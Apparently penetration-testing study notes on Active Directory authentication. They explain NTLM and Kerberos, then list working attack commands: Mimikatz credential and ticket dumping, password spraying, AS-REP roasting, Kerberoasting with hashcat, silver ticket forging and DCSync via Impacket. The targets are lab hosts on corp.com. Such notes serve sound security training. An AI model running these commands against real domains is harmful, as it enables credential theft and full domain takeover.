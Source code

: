 # Attacking Active Directory Authentication

## Understanding Active Directory Authentication

### NTLM Authentication

NTLM is used when:

- The client authenticates to a server via IP.
- The client authenticates to a hostname not registered on the AD DNS.

**Process:**

1. Client calculates NTLM hash from the user's password.
2. Sends username to the server.
3. Server returns a nonce (challenge).
4. Client encrypts nonce using the NTLM hash (response).
5. Client sends the response to the server.
6. Server forwards the response, username, and nonce to the domain controller.
7. Domain controller encrypts nonce with the NTLM hash from the username and compares it to the response.

**Notes:**

- NTLM is non-reversible and fast, making it crackable.
- NTLM is still used due to legacy application support.

### Kerberos Authentication

**Overview:**

- Kerberos v5 (MIT) implemented by Microsoft.
- In use since Windows Server 2003.
- Uses tickets via Key Distribution Center (KDC) on the domain controller.

**Authentication Steps:**

1. User logs into workstation.
2. Sends AS-REQ (timestamp encrypted with password hash).
3. DC looks up password hash in `ntds.dit`, decrypts timestamp.
4. If valid, DC returns AS-REP with session key and TGT (Ticket Granting Ticket).
5. TGT encrypted using NTLM hash of `krbtgt` account.

**Accessing a Resource:**

1. Client sends TGS-REQ (includes TGT, resource name, timestamp).
2. KDC validates TGT, extracts session key, decrypts TGS-REQ.
3. If all checks pass, returns TGS-REP with service ticket and new session key.
4. Client sends AP-REQ to the resource server.
5. Server validates service ticket and grants access based on group membership.

### Cached AD Credentials

- Password hashes are stored in LSASS (Local Security Authority Subsystem Service).
- LSASS runs as SYSTEM and contains memory structures for hashes.

**Tool: Mimikatz**

```powershell
privilege::debug
sekurlsa::logonpasswords
```

**Credential Types by OS:**

- Windows 2003: NTLM only.
- Windows 2008+: NTLM & SHA-1.
- Windows 7 or WDigest enabled: plaintext password retrievable.

**Dump Tickets:**

```powershell
sekurlsa::tickets
```

- Service ticket compromise = access to that service.
- TGT compromise = ability to request new TGS.

**Export/Import Tickets:**

```powershell
kerberos::ptt <ticket_file>
```

### AD Certificate Services

- Implemented via AD CS.
- Provides certificate-based authentication and HTTPS.
- Non-exportable private keys can be extracted using:

```powershell
crypto::capi
crypto::cng
```

---

## Performing Attacks on AD Authentication

### Password Attacks

**Domain Policy Check:**

```powershell
net accounts
```

Focus on: Lockout threshold, observation window.

#### 1. LDAP & ADSI (Low and Slow)

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://" + $PDC + "/DC=$($domainObj.Name.Replace('.', ',DC='))"
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "<username>", "<password>")
```

If password correct: returns `distinguishedName` If incorrect: throws exception

Use `Spray-Passwords.ps1` on `CLIENT75`:

```powershell
-File
-Pass
-Admin
```

#### 2. SMB Attack (Loud)

```bash
crackmapexec smb <target> -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

#### 3. Kerberos TGT Brute Force

- Lightweight: 2 UDP frames
- Uses `AS-REQ` only

**Tool: kerbrute**

```bash
kerbrute_windows_amd64.exe passwordspray -d corp.com usernames.txt 'Nexus123!'
```

### AS-REP Roasting

- Exploits users with "Do not require Kerberos preauthentication"
- Offline brute-force attack

**Linux (Impacket):**

```bash
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```

**Windows (Rubeus):**

```powershell
Rubeus.exe asreproast /nowrap
```

**Crack with hashcat:**

```bash
hashcat -m 18200 hashes.asreproast rockyou.txt -r best64.rule --force
```

### Kerberoasting

- Targets SPNs (service accounts)
- DC does not verify service ticket request, only during connection

**Windows (Rubeus):**

```powershell
Rubeus.exe kerberoast /outfile:hashes.tgsrep
```

**Linux (Impacket):**

```bash
impacket-GetUserSPNs -request -dc-ip <DC IP> corp.com/username
```

**Crack with hashcat:**

```bash
hashcat -m 13100 hashes.tgsrep rockyou.txt
```

### Silver Tickets

- Service apps rarely validate PAC
- Requires:
  - SPN account NTLM hash
  - Domain SID
  - Target SPN name

**Check access to resource:**

```powershell
iwr -UseDefaultCredentials http://<service>
```

**Mimikatz:**

```powershell
privilege::debug
sekurlsa::logonpasswords
whoami /user
kerberos::golden /sid:<SID> /domain:<domain> /ptt /target:<host> /service:<type> /rc4:<NTLM> /user:<user>
klist
```

**SID Format:** Ignore the last `-xxxx`, use base SID only.

**PAC Patch:**

- Since Oct 11, 2022: PAC\_REQUESTOR must be validated, so forging for non-existent users is blocked.

### Domain Controller Synchronization (DCSync)

- Uses DRS protocol via `IDL_DRSGetNCChanges`
- Requires privileges:
  - Replicating Directory Changes
  - Replicating Directory Changes All
  - Replicating Directory Changes in Filtered Set

**Groups with Privileges:** Domain Admins, Enterprise Admins, Administrators

**Mimikatz:**

```powershell
lsadump::desync /user:<domain\user>
lsadump::dcsync /user:<domain\user>
```

**Linux (Impacket):**

```bash
impacket-secretsdump -just-dc-user <username> corp.com/<user>:"<password>"@<ip>
```

**Example:**

```bash
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

